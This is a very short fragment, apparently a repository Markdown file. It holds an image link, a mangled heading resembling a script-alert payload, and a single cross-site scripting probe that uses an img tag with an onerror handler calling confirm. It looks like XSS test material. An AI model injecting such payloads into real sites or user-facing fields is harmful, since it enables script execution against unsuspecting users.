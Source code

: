 ---script-alert--Jay----script-
===============================

">&lt;img src=x onerror=confirm("XSS");>
